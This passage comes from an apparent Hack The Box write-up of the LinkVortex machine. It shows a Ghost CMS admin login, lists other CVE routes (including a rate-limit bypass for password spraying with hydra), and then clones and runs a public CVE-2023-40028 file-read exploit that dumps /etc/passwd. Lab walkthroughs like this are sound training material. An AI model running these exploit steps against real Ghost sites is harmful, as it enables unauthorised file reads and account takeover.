 ```
< Vary: Accept-Version,Accept-Encoding
< Cache-Control: no-cache, private, no-store, must-revalidate, max-stale=0, post-check=0, pre-check=0
< Content-Type: text/plain; charset=utf-8
< Content-Length: 7
< ETag: W/"7-rM9AyJuqT6iOan/xHh+AW+7K/T8"
< Set-Cookie: ghost-admin-api-session=s%3ArRG7_3Ujcgi01ztxzDafgx27xxQzt4lO.Kk7K0%2B3Z0monIqrxzIW8Kshu11tAoZAg8yeUfbVGZnQ; Path=/ghost; Expires=Sat, 11 Oct 2025 07:30:32 GMT; HttpOnly; SameSite=Lax
< 
* Connection #0 to host linkvortex.htb left intact
Created
```

We have gained access! So our (quite obvious) assumption worked, if however `admin` email address would be different, there two additional paths we could follow.
- [CVE-2024-43409](https://nvd.nist.gov/vuln/detail/CVE-2024-43409), with [PoC](https://blog.joshuastock.net/my-first-cve-uncovering-a-vulnerability-in-ghost), this however requires `comments` to be enabled, which is not our case.
- [CVE-2024-34451](https://nvd.nist.gov/vuln/detail/CVE-2024-34451), authentication rate-limit protection mechanism  could be bypassed by using `X-Forwarded-For` header with different values (e.g. random uuid with each request). This could be used to spray password we have found for `admin@$DOMAIN` (e.g. with use of `hydra`). 

Anyway, with access to admin panel let's exploit [CVE-2023-40028](https://nvd.nist.gov/vuln/detail/CVE-2023-40028) to read local files on CMS system. We will use already existing exploit.

```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028.git CVE-2023-40028 && \
./CVE-2023-40028/CVE-2023-40028 -u admin@linkvortex.htb -p ****************** -h http://linkvortex.htb
Cloning into 'CVE-2023-40028'...
remote: Enumerating objects: 20, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 20 (delta 3), reused 9 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (20/20), 8.38 KiB | 8.38 MiB/s, done.
Resolving deltas: 100% (3/3), done.
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
Enter the file path to read (or type 'exit' to quit): exit
Exiting. Goodbye!
```